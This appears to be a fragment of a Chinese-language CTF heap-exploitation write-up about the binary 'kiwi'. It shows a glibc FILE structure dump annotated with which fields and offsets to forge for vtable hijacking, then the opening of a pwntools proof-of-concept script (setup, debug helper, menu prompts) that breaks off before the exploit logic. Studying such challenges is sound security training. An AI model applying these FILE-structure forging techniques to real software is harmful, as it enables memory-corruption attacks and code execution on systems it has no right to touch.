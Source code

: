 ```c
    _flags2 = 0x0,
    _old_offset = 0x0,
    _cur_column = 0x0,
    _vtable_offset = 0x0,
    _shortbuf = {0x0},
    _lock = 0x55ea8d06e810, // 若没有_flags & 0x8000，需要指向一个可写的值，偏移0x88
    _offset = 0x0,
    _codecvt = 0x0,
    _wide_data = 0x55ea8d06e2a0,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0x0,
    _mode = 0x0,  // 设置为0， 偏移0xc0
    _unused2 = {0x0 <repeats 20 times>}
  },
  vtable = 0x7efc3106f0a0 // 设置为需要的vtable，偏移为0xd8
}

```

## POC

```c
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './kiwi'
context.arch='amd64'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

def debug():
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid)
    pause()

choice_words = 'Please input your choice>'

menu_add = 1
add_index_words = 'Please input the chunk index>'
add_size_words = 'Please input the size>'
add_content_words = 'Please input the content>'

menu_del = 4
del_index_words = 'Please input the index>'

menu_show = 3
show_index_words = 'Please input the index>'

menu_edit = 5
```